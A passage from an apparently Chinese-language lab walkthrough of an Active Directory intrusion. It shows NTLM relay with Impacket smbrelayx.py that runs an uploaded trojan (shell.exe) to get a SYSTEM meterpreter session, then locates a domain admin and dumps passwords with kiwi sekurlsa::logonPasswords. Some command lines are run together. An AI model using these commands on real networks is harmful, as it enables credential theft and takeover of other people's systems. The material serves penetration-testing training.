 并将新生成的木马 shell.exe 上传到 CentOS 上面。

然后进入 Impacket 的 examples 目录执行如下命令：

```
./smbrelayx.py -h 192.168.93.20 -e /root/shell.exe# 192.168.93.20 为要重放的目标主机
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8hHMHTXiaUzKoQn1wODDSvlh6o2RX2zEV9lktADd0uHlw58aXibLz5dpW5h5icia3vBcjqQd8m5iaopCA/640?wx_fmt=png)image-20210204161002061

执行后会在 CentOS 上面启动一个 smb 服务和一个 http 服务，http 服务会跟 nginx 的 80 端口冲突，所以需要事先停止 nginx 服务：`nginx -s stop` 。

此时，如果内网中的有域用户访问再次通过 centos 代理访问站点时，访问的就不是之前的那个 Joomla 站点了，而是攻击者在 centos 上面搭建的一个恶意的 smb 服务，会弹出一个认证页面：

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8hHMHTXiaUzKoQn1wODDSvlP6Th6EvfzepeGd6sreydoxcVHicCDMpmRUVja9o3IibOVGhxTI30wJ6A/640?wx_fmt=png)image-20210204161358461

安全意识差的用户自然会输入自己的域用户密码，然后 smbrelayx.py 就会抓取到该用户的 Net-NTLM Hash 并重放给内网中的另一台机器 192.168.93.20（Windows Server 2008），成功后，会在 Windows Server 2008 上面上传我们预先生成的木马 shell.exe 并执行。

由于这里是靶机，所以我手动完成该域用户的认证过程，就用 Windows7 上的用户访问吧。输入用户名密码后，smbrelayx.py 成功抓取到该用户的 Net-NTLM Hash：

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8hHMHTXiaUzKoQn1wODDSvlicScHHo4L7veI5ia9vOGk2lL9wIbbmMVAA6b3fwoEKXTR6wvicSG3iadAQ/640?wx_fmt=png)image-20210204161224186

Windows Server 2008 成功上线 meterpreter，并且还是 system 权限：

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8hHMHTXiaUzKoQn1wODDSvlUmoyupmibbRvpjbrFYRSv4bFRqshW04OY2tZM7SVg0FyBhibaGX67Oiaw/640?wx_fmt=png)image-20210204161108544

（注意这里在监听 bind_tcp 时一定要设置进程迁移，否则在 `Removing file` 的时候，会话也随之关闭了）

### 定位域管理员

拿下 Windows server 2008 之后，我们在 Windows server 2008 上传 PVEFindADUser.exe 工具，然后进入 shell 中执行如下命令：

```
pvefinaduser.exe -current
```

如下图，成功显示域中所有计算机上当前登陆的所有用户：

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8hHMHTXiaUzKoQn1wODDSvlOiaumsSpAY6MWuqLGw7uUB2WibQJaBXg9mNmJDBkslIb4phNTjB2X26Q/640?wx_fmt=png)image-20210204170707015

可见 TEST 域的域管理员（test\administrator）当前登录的主机为 WIN-8GA56TNV3MV.test.org，即 Windows Server 2012（192.168.93.10）。

### 抓取域用户密码

在 Windows Server 2008 上面列出当前进程时，发现了域管理员（TEST\administrator）的进程：

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8hHMHTXiaUzKoQn1wODDSvl9NibUAybZJsOPDVG3sgVmxGXU8S0VwflO0iaDOic2YQDlQxqRbUd8AeSg/640?wx_fmt=png)image-20210204183309037

所以我们可以在 Windows server 2008 上使用 meterpreter 上的 kiwi 模块抓取域用户及域管理员的密码：

```
load kiwikiwi_cmd privilege::debugkiwi_cmd sekurlsa::logonPasswords
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8hHMHTXiaUzKoQn1wODDSvlnu8UNGn269BibB3MaOzo3ygLwOdCUWCYHUKhGoxC5NJzOSy2caUaynA/640?wx_fmt=png)image-20210204163037297
